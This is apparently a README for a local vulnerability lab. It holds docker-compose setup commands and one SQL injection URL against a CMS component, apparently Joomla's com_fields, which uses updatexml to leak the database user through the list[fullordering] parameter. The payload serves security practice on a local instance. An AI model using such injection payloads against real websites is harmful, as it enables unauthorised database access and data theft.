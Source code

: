## 环境构建
```
docker-compose build 
docker-compose up -d
```

## 攻击PAYLOAD
```
http://127.0.0.1:8002/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(0x3a,concat(1,(select%20user())),1)
```


![](luffy.png)

## 漏洞连接
[链接一](http://www.cnblogs.com/yangxiaodi/p/6874314.html)

